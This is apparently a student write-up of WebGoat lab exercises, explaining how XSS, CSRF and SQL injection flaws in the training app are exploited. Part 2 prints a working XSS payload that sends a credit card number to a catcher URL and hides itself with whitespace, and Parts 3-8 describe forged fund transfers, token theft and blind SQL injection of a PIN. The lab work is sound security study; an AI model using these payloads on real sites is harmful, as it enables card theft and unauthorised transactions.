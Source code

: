 # Web-Security-Attack

## Part 1:
The search bar is exploitable since the server displays the input to the webpage without properly checking the input. The attacker can then type javascript/HTML as input which will be displayed and run under the origin of the website. So my input consists of a close tag to close the website's open tag, HTML to construct a form, and javascript to steal the username and password.


## Part 2:
The digital access code is exploitable since the server displays the error message along with the input when the input does not make sense, without properly checking/sanitizing the input. The attacker can then type javascript/HTML as input which will be displayed and run under the origin of the website. In addition, the submit button does not check the input so when the user clicks on "Purchase", the malicious code also gets to run. So I prepared javascript to steal the credit card information and delete error messages that the website may display. Furthermore, I put the original access code "111" and lots of white spaces in front of my javascript to hide the javascript from the user. I then encode my javascript and the white spaces and put them in an argument of my crafted URL. Below is the unencoded URL: http://localhost:8090/WebGoat/start.mvc#attack/1406352188/900?field2=123&field1=111
```                                               
<script>
	(function hack() {
		var creditCardNumber = encodeURI(document.getElementsByName('field2')[0].value);
		var url = "http://localhost:8090/WebGoat/catcher?PROPERTY=yes&card=" + creditCardNumber;
		var XSSImage = new Image();
		XSSImage.src = url;
		var message = document.getElementById('message');
		while (message.firstChild) {
			message.removeChild(message.firstChild);
		}
	})();
</script>
```

## Part 3:
The exploitable field is the message field, because the receiver can click on the title and loads the message which is not properly checked/sanitized by the server. Attacker can then type javascript/HTML as message which will be displayed and run under the origin of the website. In this question, the user happens to be authenticated, so I prepared the message as an html image tag which makes, via its src attribute, a GET request to the "bank" to transfer some money.

## Part 4:
The exploitable field is still the message field. The situation is similar to part 3 where the server does not properly check/sanitize the message and clicking on the title loads the message that may be malicious. The difference here is that the "bank" expects a "CONFIRM" request too. So the attacker just needs to "manually" confirm the transaction using javascript/HTML in the message field. So I prepared an iframe that makes, via its src attribute, a GET request to the "bank" to transfer funds. When my javascript/HTML gets loaded, it calls a function to send a hardcoded "CONFIRM" string to the "bank" so the transaction can be completed.

## Part 5:
The exploitable field is still the message field. The situation is similar to part 4 where the server does not properly check/sanitize the message and clicking on the title loads the message that may be malicious. The difference here is the "bank" expects a token instead of a "CONFIRM" string. The transaction can be completed since the token is already actually on the webpage of the "bank" except it is hidden. So I prepared an iframe that makes, via its src attribute, a GET request to the "bank" to transfer funds, and when the submit page from the "bank" loads, I will have access to the hidden token. The iframe calls a javascript function to get that token and sends the transfer fund request again with the token.

## Part 6:
The SQL input box is exploitable since the server does not sanitize the SQL input. So I just close the WHERE condition with ' and add another OR condition which always evaluates to true.

## Part 7:
The SQL input box is exploitable since the server does not sanitize the SQL input. The server will execute more than one SQL query, so I just uses ; to end the first query and put the two evil queries after the ; for part 1 and part 2 respectively.

## Part 8:
The SQL input box is exploitable since the server does not sanitize the SQL input. So I just add an extra condition to the WHERE clause. The extra condition is an AND whose value comes from a subquery that guess the range of PIN. My initial guess was less than 10000 which turned out to be true. Then I did a binary search as follows:
```
1st try: 10000 -> valid 
2nd try: 5000 -> valid 
3rd try: 2500 -> valid 
4th try: 1250 -> invalid 
5th try: 1875 -> invalid 
6th try: 2188 -> invalid 
7th try: 2344 -> invalid 
8th try: 2422 -> valid 
9th try: 2383 -> valid 
10th try: 2364 -> invalid 
11th try: 2374 -> valid 
12th try: 2369 -> valid 
13th try: 2367 -> valid 
14th try: 2365 -> valid (answer is 2364)
```
Finally I arrived at the correct PIN which is 2364.
